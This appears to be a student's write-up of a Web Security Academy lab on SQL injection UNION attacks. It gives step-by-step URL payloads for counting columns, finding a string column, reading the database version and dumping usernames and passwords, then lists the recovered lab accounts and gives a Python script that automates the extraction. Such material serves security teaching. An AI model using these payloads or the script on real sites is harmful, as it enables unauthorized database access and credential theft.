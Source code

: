 # Lab: SQL injection UNION attack, retrieving multiple values in a single column

URL: https://0af5002903b6773d8025d5b3003300b1.web-security-academy.net/

## Sitemap:

URL: https://0af5002903b6773d8025d5b3003300b1.web-security-academy.net/

URL: https://0af5002903b6773d8025d5b3003300b1.web-security-academy.net/product?productId=5

URL: https://0af5002903b6773d8025d5b3003300b1.web-security-academy.net/filter?category=Gifts

<br>

<br>

## SQLi:

URL: https://0af5002903b6773d8025d5b3003300b1.web-security-academy.net/filter?category=Gifts%27

![](./Images/Id0.png)

<br>

<br>

## Exploitation:

### Getting a 500 Error:

URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category=Gifts'`

![](./Images/expl0.png)

### Getting the number of fields:

URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NULL,NULL--+-`

![](./Images/expl1.png)

### Finding the STRING field:

URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NULL,'AAAAAAAA'--+-`

![](./Images/expl2.png)

### Getting the version:

URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NULL,cast(version()+as+varchar)--+-`

![](./Images/expl3.png)

### Getting username and password:

URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category='+UNION+SELECT+NULL,username+FROM+users--+-`

![](./Images/expl4.png)

URL: `https://0a0f00c4042781a180f130f400b00038.web-security-academy.net/filter?category='+UNION+SELECT+NULL,password+FROM+users--+-`

![](./Images/expl5.png)

## Accounts:

carlos:rk5qpdlr463tojelldln
administrator:jpkc9fl8giq4eu5v4exn
wiener:v8v3z7b04uob17on66uj

## Automation:

```python
#!/usr/bin/python3
##
import requests
import re
import pwn
##
Payload1="/filter?category='+UNION+SELECT+NULL,"
Payload2="+FROM+users--+-"
##
##
def get_usernames(URL):
    usernames=[]
    send=URL+Payload1+'username'+Payload2
    r=requests.get(send)
    for X in re.findall("<th>.*</th>",r.text):
        usernames.append( X.split('>')[1].split('<')[0] )
    return usernames
##
def get_passwords(URL):
    passwords=[]
    send=URL+Payload1+'password'+Payload2
    r=requests.get(send)
    for X in re.findall("<th>.*</th>",r.text):
        passwords.append( X.split('>')[1].split('<')[0] )
    return passwords
##
def main(URL):
    usernames=get_usernames(URL)
    passwords=get_passwords(URL)
    print(f"usernames: {usernames}")
    print(f"Passwords: {passwords}")
##
main("https://0a610054030a496b808653c5000d0018.web-security-academy.net")
```

